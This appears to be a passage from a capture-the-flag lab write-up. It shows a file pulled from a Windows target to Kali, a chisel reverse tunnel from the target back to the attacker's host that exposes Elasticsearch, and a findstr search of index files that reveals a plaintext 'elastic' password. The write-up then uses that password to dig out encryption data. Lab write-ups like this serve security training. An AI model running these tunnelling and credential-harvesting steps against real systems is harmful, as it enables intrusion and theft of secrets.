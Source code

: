 ```bash
[*] Downloaded 10.00 MiB of 12.11 MiB (82.58%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 11.00 MiB of 12.11 MiB (90.84%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 12.00 MiB of 12.11 MiB (99.1%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 12.11 MiB of 12.11 MiB (100.0%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Completed  : C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
```

Port forward elastic (port 9200)
```bash
# On kali
┌──(kali㉿kali)-[~/Downloads]
└─$ ./chisel server --reverse -p 8000
2024/03/11 04:54:08 server: Reverse tunnelling enabled
2024/03/11 04:54:08 server: Fingerprint d65s4sJDxWMDIEcD+YGsygODk+qS/9bav96sq5WxK9g=
2024/03/11 04:54:08 server: Listening on <http://0.0.0.0:8000>
2024/03/11 04:54:38 server: session#1: tun: proxy#R:9200=>9200: Listening

# On target machine
C:\\Temp\\www\\internal\\content\\posts\\internal-laps-alpha>.\\chisel.exe client 10.10.14.42:8000 R:9200:127.0.0.1:9200
.\\chisel.exe client 10.10.14.42:8000 R:9200:127.0.0.1:9200
2024/03/11 01:54:39 client: Connecting to ws://10.10.14.42:8000
2024/03/11 01:54:41 client: Connected (Latency 47.6278ms)
```

Locate elastic creds: `elastic:oKHzjZw0EGcRxT2cux5K`.
```bash
PS C:\\Program Files\\elasticsearch-8.8.0\\data\\indices> type *\\\\0\\index\\*.cfs | findstr pass
?metadata":{},"realm":"__attach"Z▒?}}?reserv?5ed-user-elasticI{"password":"oKHzjZw0EGcRxT2cux5K","enabled":true,"[?reserved-user"}?
```

We can now login to elastic using the credentials.
![Pasted image 20240714174818.png](/images/Pasted image 20240714174818.png){: .normal }


Use the elasticvue plugin to enumerate further.
![Pasted image 20240714174812.png](/images/Pasted image 20240714174812.png){: .normal }


In the indices tab we find the seed and text used for encryption.
![Pasted image 20240714174809.png](/images/Pasted image 20240714174809.png){: .normal }


Seed:
![Pasted image 20240714174805.png](/images/Pasted image 20240714174805.png){: .normal }


Encrypted hash:
![Pasted image 20240714174801.png](/images/Pasted image 20240714174801.png){: .normal }
